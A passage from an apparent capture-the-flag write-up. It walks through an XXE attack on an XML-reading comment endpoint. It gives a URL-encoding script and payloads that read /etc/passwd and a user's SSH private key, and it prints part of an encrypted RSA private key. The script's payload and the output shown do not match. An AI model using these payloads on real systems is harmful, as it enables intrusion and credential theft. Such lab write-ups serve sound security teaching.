 Let's send a simple request and check the format of it:


![](cybersecurity/images/Pasted%2520image%252020250317183500.png)

My guess is that since this reads from a `xml` file, it could be vulnerable to XXE, also, we can try crafting a payload to read `/etc/passwd`, we can use this python script to convert the payload into url encoding:


```python
import urllib.parse
payload = '''<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment><name>&xxe;</name><author>test</author><comment>test</comment></comment>'''
print(urllib.parse.quote(payload))
```

Now, let's use it and copy the payload:


```python
python3 convert.py

%3C%3Fxml%20version%3D%221.0%22%3F%3E%0A%3C%21DOCTYPE%20foo%20%5B%20%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A///home/barry/.ssh/id_rsa%22%3E%20%5D%3E%0A%3Ccomment%3E%3Cname%3E%26xxe%3B%3C/name%3E%3Cauthor%3Etest%3C/author%3E%3Ccomment%3Etest%3C/comment%3E%3C/comment%3E
```



If we use the payload:


![](cybersecurity/images/Pasted%2520image%252020250317183744.png)

And there we go, we got LFI through exploiting this vulnerable parameter, we already know about `barry` and that we can login using his key, let's read the key:

![](cybersecurity/images/Pasted%2520image%252020250317183859.png)

Let's grab the key and login as barry:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
```